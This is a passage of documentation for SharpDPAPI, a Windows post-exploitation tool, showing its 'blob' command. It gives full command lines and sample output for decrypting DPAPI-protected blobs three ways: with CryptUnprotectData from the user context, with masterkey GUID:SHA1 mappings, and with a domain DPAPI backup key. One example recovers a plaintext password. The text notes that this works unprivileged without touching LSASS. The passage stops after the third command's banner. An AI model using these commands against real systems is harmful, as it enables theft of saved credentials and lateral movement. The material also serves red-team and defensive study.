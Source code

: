 The `/unprotect` flag will use CryptUnprotectData() to decrypt the blob without masterkeys needed, *if* the command is run from the user context who saved the passwords. This can be done from an _unprivileged_ context, without the need to touch LSASS. For why this approach isn't used for credentials/vaults, see Benjamin's [documentation here](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem).

Decrypt a blob using CryptProtectData() (the `/unprotect` flag):

C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob.bin /unprotect

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using CryptUnprotectData() for decryption.

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : Password123!


Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob2.bin {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using CryptUnprotectData() for decryption.

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 314
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob2.bin /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0
